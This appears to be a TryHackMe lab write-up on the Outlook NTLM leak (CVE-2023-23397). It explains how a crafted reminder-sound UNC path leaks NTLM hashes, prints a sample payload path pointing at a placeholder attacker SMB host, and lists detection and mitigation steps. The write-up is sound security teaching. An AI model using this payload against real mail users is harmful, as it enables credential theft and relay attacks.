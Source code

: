 ```yaml
---
layout: post
title: "Outlook NTLM Leak"
date: 2023-06-04 
categories: ["Hands-on", "TryHackMe"]
tags: "TryHackMe" "CVE-2023-23397"
---
```


## CVE-2023-23397
Tool used: **Responder**

**Scenario:**
*The victim recieves a malicous email that redirects them to the attacker's SMB Server. This happens by busing CVE-2023-23397.*

### Exploit
The exploit happens by manipulating the parameter of the reminder sound path location. Simply changing the path wont do anything. the **PidLidReminderFileParameter** should point to **Universal Naming Convention (UNC)** path instead of a local file. **PidLidReminderOverride** should be configured to true to be able to override the default the confirgurations.

When the Victim connects to the attacker's SMB server, the victim's remote server would send the NTLM. The attacker can use the NTLMv2 hash to authenticate by using the relay attack. 

```bash
\\ATTACKER_IP\foo\bar.wav
```

#### Script: to be added

### Mitigation & Detection

**Sigma rules** can be used to detect a connection to a WebDav or SMB share, or detects svchost.exe spawning rundll32.exe both indicates a a post-exploitation but the latter detects exfiltration phase.**Yara Rules** used for pattern identification within the files on a disk to detect the suspcisous MSG file on the disk. In response to the attack, Microsoft released a **Powershell script** that can check the exchange messaging items like Mail, Calendar, and tasks to see if the IOC is present.

**Mitigation**:
- Add users to the Protected Users Security Group, which prevents using NTLM as an authentication mechanism.
- Block TCP 445/SMB outbound from your network to avoid any post-exploitation connection.
- Use the PowerShell script released by Microsoft to scan against the Exchange server to detect any attack attempt.
- Disable WebClient service to avoid webdav connection.

